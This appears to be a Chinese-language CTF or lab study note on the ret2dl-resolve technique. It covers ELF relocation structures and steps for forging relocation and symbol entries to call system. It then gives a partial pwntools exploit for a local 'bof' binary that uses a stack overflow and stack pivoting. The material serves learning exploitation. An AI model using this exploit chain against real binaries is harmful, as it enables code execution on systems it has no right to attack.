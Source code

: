 #####重定位表结构
```
typedef __u16   Elf64_Half;
typedef __u32   Elf64_Word;
typedef __u64   Elf64_Addr;
typedef __u64   Elf64_Xword;
typedef __s64   Elf64_Sxword;

typedef struct elf64_rela {
  Elf64_Addr r_offset;  /* Location at which to apply the action */
  Elf64_Xword r_info;   /* index and type of relocation */
  Elf64_Sxword r_addend;    /* Constant addend used to compute value */
} Elf64_Rela;
#define ELF64_R_SYM(i) ((i) >> 32) #define ELF64_R_TYPE(i) ((i) & 0xffffffff)
```
>+ _dl_runtime_resolver的第二个参数由offset 变为index, 依然通过栈传递参数
>+ .dynsym节包含了动态链接符号表
>+ Elf32_Sym[num]中的num对应着ELF32_R_SYM(Elf32_Rel->r_info)
>```ELF32_R_SYM(Elf32_Rel->r_info) = (Elf32_Rel->r_info) >> 8```

#####利用方法
>1. 控制eip为PLT[0]的地址，只需传递一个index_arg参数
>2. 控制index_arg的大小，使reloc的位置落在可控地址内
>3. 伪造reloc的内容，使sym落在可控地址内
>4. 伪造sym的内容，使name落在可控地址内
>5. 伪造name为任意库函数，如system

##Eg: bof

#####checksec:
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

#####exp
```
from pwn import *

io = process('./bof')
elf = ELF('./bof')

read_plt = elf.plt['read']
write_got = elf.got['write']
ppp_ret = 0x08048619
bss_addr = 0x0804a040
dynsym_addr = 0x080481d8
dynstr_addr = 0x08048278
rel_plt_addr = 0x08048330 
base_stage = bss_addr + 0x800
pop_ebp_ret = 0x0804861b
leave_ret = 0x0804851d

payload = 'A' * 112
payload += p32(read_plt)
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
# frame faking
payload += p32(pop_ebp_ret)
payload += p32(base_stage)
payload += p32(leave_ret)
io.sendline(payload)

```
